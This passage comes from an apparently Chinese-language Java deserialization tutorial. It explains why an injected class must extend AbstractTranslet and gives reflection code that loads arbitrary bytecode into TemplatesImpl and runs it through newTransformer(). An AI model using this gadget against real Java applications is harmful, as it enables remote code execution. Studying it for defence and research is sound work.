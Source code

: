 classCount的值是1，导致`_auxClasses`就成了null，而这段`if (superClass.getName().equals(*ABSTRACT_TRANSLET*))`superClass是我们写入危险类的父类，而这段代码要求superClass为`ABSTRACT_TRANSLET`(`private static String ABSTRACT_TRANSLET = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";`)才返回真，我们的目标就是不执行下面的else，同时\_transletIndex < 0才不会，所以我们将我们的危险类继承com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet。

[![](assets/1700127979-db321124a5161da4e3ccaf9b0079d972.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116155216-0faba90e-8455-1.png)

```plain
public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
    }
```

